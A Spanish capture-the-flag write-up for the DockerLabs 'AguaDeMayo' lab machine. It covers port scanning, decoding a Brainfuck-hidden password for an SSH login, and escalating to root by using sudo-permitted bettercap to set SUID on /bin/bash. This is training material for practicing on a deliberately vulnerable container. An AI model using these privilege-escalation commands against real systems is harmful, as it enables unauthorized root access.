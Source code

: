 # AaguaDeMayo DockerLabs

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip aduademayo.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh aguademayo.tar
```

Info:

```
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 08:22 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

### Gobuster

```shell
```

Info:

```
```

Vemos que hay un directorio llamado `/images` si vamos ahi hay una imagen sospechosa llamada `agua_ssh.jpg` pero aparentemente no hay gran cosa, si vemos el codigo de la pagina de `apache2` veremos lo siguiente.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++.>+++++++++++..----.<<++.>>-------.+..+++++++++++.<<.>>-------.+++++.++++++.-----.<<.>>-.-------------.+++++++++++++++++++.+.---.-------------.<<.>>----.+++++++++++++.----------.<<.>>++++++++++++++++.------------.---.+++++++++.<<.>>+++++++++++.----------.++++++.<<.>>++.--------------.+++..<<.>>+++++++++.-------.----------.+.+++++++++++++.+.+.-------------------.+++++++++++++.----------.<<.>>+.+++++++++++++++++.-----------------.+++++++++++++.+++++++.-----.------------.+.+++++.-------.<<.>>-----.+++.+++++++++++++++..---------------.+++++++++++++.<<++++++++++++++.------------.
```

Un codigo de encriptacion `Brainfuck` y si lo desencriptamos dira algo como...

```
bebeaguaqueessano
```

Por lo que podria ser una posible contraseña y si probamos como nombre de usuario `agua` como pone en la imagen.

```shell
ssh agua@<IP>
```

Y como contraseña `bebeaguaqueessano` veremos que entramos dentro de la maquina.

> Credentials

```
User = agua
Pass = bebeaguaqueessano
```

### Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for agua on 29a2587cdbbf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 29a2587cdbbf:
    (root) NOPASSWD: /usr/bin/bettercap
```

Y si lo iniciamos.

```shell
sudo bettercap
```

Nos metera en una shell del binario, pero si hacemos `help` veremos lo siguiente.

```
help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
```

Por lo que vemos podemos ejecutar comandos del sistema poniendo `!` delante de cada comando, por lo que si hacemos.

```shell
!chmod +s /bin/bash
```

Añadiremos `SUID` a la `bash` por lo que si nos salimos de ahi y ponemos.

```shell
bash -p
```

Seremos `root`.
